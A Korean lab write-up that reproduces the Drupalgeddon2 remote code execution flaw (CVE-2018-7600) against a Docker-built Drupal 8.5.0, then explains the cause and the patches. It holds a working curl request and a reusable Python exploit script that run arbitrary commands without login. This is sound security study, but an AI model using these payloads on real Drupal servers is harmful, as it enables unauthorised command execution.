


# Drupal Drupalgeddon2 (CVE-2018-7600)
> 화이트햇 스쿨 4기 6반_이현지_5450 (https://github.com/leehyungee)


## 1. 취약점 개요

CVE-2018-7600, 일명 "Drupalgeddon2"는 Drupal 7.x, 8.x의 Form API에서 발생하는 원격 코드 실행(RCE) 취약점이다. 2018년 3월에 공개됐는데, 당시 전 세계 수십만 개의 Drupal 사이트가 영향을 받을 정도로 파급력이 컸다고 한다.
원인을 찾아보니, Drupal Form API가 AJAX 요청을 처리할 때 클라이언트가 보낸 폼 필드의 속성을 서버가 제대로 검증하지 않고 그대로 믿어버리는 게 문제였다. Drupal은 #type, #markup, #post_render처럼 '#'으로 시작하는 키로 이 값을 어떻게 렌더링할지를 정하는데, 이 중 #post_render는 렌더링이 끝난 뒤에 실행할 콜백 함수를 지정하는 속성이다.
그런데 로그인 안 해도 접근 가능한 /user/register(회원가입) 페이지에서, 요청 파라미터에 mail[#post_render][]=exec 같은 값을 끼워 넣으면 Drupal이 이걸 그대로 "렌더링 끝나면 exec() 실행해"라고 받아들여 버린다. 그리고 실행할 명령어(#markup)까지 사용자가 직접 지정할 수 있어서, 결국 로그인 없이 서버에서 아무 명령이나 실행시킬 수 있게 되는 것이다.
나는 이 부분이 강의에서 다룬 정수 오버플로우 실습이랑 비슷한 맥락이라고 느껴졌다. 정수 오버플로우가 값의 범위를 검증 안 해서 생기는 문제인 것처럼, 이것도 결국 사용자 입력을 어디까지 믿을지를 검증하지 않아서 생긴 문제다.


## 2. 대상 및 영향 범위

영향 받는 버전: Drupal 7.x < 7.58, Drupal 8.x < 8.3.9 / 8.4.6 / 8.5.1
공격 조건: 인증 불필요(익명 사용자), 네트워크 접근만 가능하면 됨
공격 결과: 웹서버 프로세스 권한(www-data)으로 임의 명령 실행
CVSS 3.0 점수: 9.8 (Critical)


## 3. 환경 구성

처음엔 Drupal 8.5.0을 그대로 재현하려고 했는데, Docker Hub의 공식 drupal 이미지는 브랜치별로 최신 패치 버전(지금 기준 8.5.15)만 남겨두고 있어서, 그냥 drupal:8.5 태그로 받으면 이미 패치된 버전이 딸려온다는 걸 실습하면서 알게 됐다. 그래서 태그에 의존하지 않고, Drupal 8.5.0 소스 tarball을 직접 다운받아 설치하는 Dockerfile을 만들어서 취약 버전을 고정했다.

```dockerfile
FROM php:7.2-apache
RUN sed -i -e 's/deb.debian.org/archive.debian.org/g' -e '/security/d' -e '/buster-updates/d' /etc/apt/sources.list
RUN apt-get update && apt-get install -y wget unzip libsqlite3-dev sqlite3 libpng-dev libjpeg-dev libfreetype6-dev
RUN docker-php-ext-configure gd --with-jpeg-dir=/usr --with-freetype-dir=/usr
RUN docker-php-ext-install pdo pdo_mysql pdo_sqlite gd
RUN wget https://ftp.drupal.org/files/projects/drupal-8.5.0.tar.gz -O /tmp/drupal.tar.gz
RUN tar -xzf /tmp/drupal.tar.gz -C /var/www/html --strip-components=1
RUN chown -R www-data:www-data /var/www/html
RUN rm /tmp/drupal.tar.gz
```

```yaml
version: "3"
services:
  drupal:
    build: .
    ports:
      - "8080:80"
```

베이스 이미지로 쓴 php:7.2-apache는 Debian Buster 기반인데, Buster가 이미 EOL(지원 종료)돼서 기본 apt 저장소 주소(deb.debian.org)가 응답을 안 하는 문제를 만나게 되었다. sed로 저장소 주소를 archive.debian.org(예전 버전 아카이브용 서버)로 바꿔서 해결했다. 그리고 Drupal 설치 요구사항 검사에서 PHP gd 확장이 없다고 떠서, libjpeg/libfreetype 라이브러리를 설치하고 docker-php-ext-configure/install로 gd를 추가해줬다.


### 실행 방법
```bash
docker compose up -d --build
```

빌드 후 http://<서버-IP>:8080 접속 → 설치 마법사에서 프로필은 Standard, DB는 별도 서버 없이 쓸 수 있는 SQLite로 선택 → 설치 완료.


## 4. 취약점 재현 (PoC)

### 4-1. 수동 요청 (curl)

```bash
curl -s -X POST 'http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
  --data 'form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id'
```

각 파라미터가 하는 일을 정리하면 이렇다. element_parents=account/mail/#value는 AJAX로 렌더링할 대상을 mail 필드로 지정하는 부분이고, mail[#type]=markup은 이 필드를 그냥 텍스트(마크업)로 렌더링하게 만든다. mail[#post_render][]=exec가 핵심인데, 렌더링이 끝난 결과를 인자로 exec()를 호출하도록 콜백을 등록하는 부분이다. 마지막 mail[#markup]=id는 그 exec()에 실제로 넘어갈 명령어다.
취약하다면 응답 안에 명령 실행 결과가 그대로 찍혀서 나온다.

### 4-2. 결과

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

로그인이나 회원가입 절차를 하나도 안 거치고, POST 요청 한 번만으로 웹서버 권한(`www-data`)의 명령 실행 결과를 그대로 받아왔다.



### 4-3. 재사용 가능한 PoC 스크립트

curl 명령을 파이썬으로 옮겨서, 대상 URL이랑 실행할 명령어를 인자로 바꿔가며 테스트할 수 있게 만들었다.

```python
import requests
import sys
TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:8080"
COMMAND = sys.argv[2] if len(sys.argv) > 2 else "id"
url = TARGET + "/user/register"
params = {"element_parents": "account/mail/#value", "ajax_form": "1", "_wrapper_format": "drupal_ajax"}
data = {"form_id": "user_register_form", "_drupal_ajax": "1", "mail[#post_render][]": "exec", "mail[#type]": "markup", "mail[#markup]": COMMAND}
print("[*] Target:", TARGET)
print("[*] Command:", COMMAND)
res = requests.post(url, params=params, data=data)
print("[*] Raw response:")
print(res.text)
```

```bash
python3 poc.py http://localhost:8080 id
```

이것도 똑같이 uid=33(www-data)... 결과가 나오는 걸 확인했다.




## 5. 원인 분석

Drupal Form API는 원래 서버가 만든 렌더링 배열만 신뢰해야 하는데, #ajax 콜백을 처리하는 로직 일부가 클라이언트 파라미터를 렌더링 배열에 합치는 과정에서 '#'로 시작하는 예약 키(#post_render, #type 등)까지 그대로 받아버리는 게 문제였다. 원래는 개발자만 지정할 수 있어야 하는 렌더링 후 어떤 함수를 호출할지를 공격자가 HTTP 파라미터로 마음대로 정할 수 있게 된 것이다.
한마디로 사용자 입력값이랑 애플리케이션 내부 제어값이 구분 안 되고 같이 섞여 들어간 게 근본 원인이라고 생각한다.


## 6. 대응 방안

제일 확실한 대응은 패치 적용이다. Drupal을 7.58, 8.3.9, 8.4.6, 8.5.1 이상으로 올리면 되는데, 이 패치들이 사용자 입력에서 온 렌더링 키를 따로 걸러내도록 Form API 처리 로직을 고쳤다.
바로 패치를 못 올리는 상황이면, WAF나 리버스 프록시에서 요청 파라미터에 #post_render, #type, #markup 같은 값이 인코딩된 형태(%23post_render 등)로 들어오면 막는 임시 방법도 있다.
그리고 강의 파트 4에서 배운 것처럼, 웹서버 프로세스(www-data)가 애초에 시스템 명령 실행 권한이나 민감한 파일 접근 권한을 최대한 안 갖게 하는 것도 중요하다고 느꼈다.


## 참고 자료
- https://www.drupal.org/sa-core-2018-002
- https://nvd.nist.gov/vuln/detail/CVE-2018-7600
